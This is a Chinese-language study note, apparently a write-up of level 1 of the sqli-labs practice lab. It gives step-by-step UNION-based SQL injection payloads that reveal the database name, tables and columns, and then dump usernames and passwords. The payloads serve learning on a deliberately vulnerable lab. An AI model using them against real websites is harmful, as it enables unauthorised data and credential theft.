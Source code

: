 ```yaml
---
title: sqlilab学习
---
```


# less-1

![image-20210508101157423](C:\Users\luorui\AppData\Roaming\Typora\typora-user-images\image-20210508101157423.png)

单引号闭合，猜测语句为select ... from ... where id=’1’

利用order by语句对表中字段进行查询，到4时发现报错

那么字段是3

union select联合查询找显注点

这里要用一个不存在的id，当我们在进行联合查询时将第一个select语句的where条件设置为不存在的条件这样他就能直接显示第二个语句也就是我们拼接的语句的结果，这样它返回的数值就是我们的显注点了

![image-20210508101558053](C:\Users\luorui\AppData\Roaming\Typora\typora-user-images\image-20210508101558053.png)

查库名

```
?id=-1' union select 1,2,database() --+
```

![image-20210508101651360](C:\Users\luorui\AppData\Roaming\Typora\typora-user-images\image-20210508101651360.png)

表名

```
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

![image-20210508101749059](C:\Users\luorui\AppData\Roaming\Typora\typora-user-images\image-20210508101749059.png)

字段名，查users

```
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```

![image-20210508101900134](C:\Users\luorui\AppData\Roaming\Typora\typora-user-images\image-20210508101900134.png)

最后查出账号密码

```
?id=-1' union select 1,2,group_concat(username,password) from users--+
```

![image-20210508102052719](C:\Users\luorui\AppData\Roaming\Typora\typora-user-images\image-20210508102052719.png)

其实可以用sqlmab直接跑
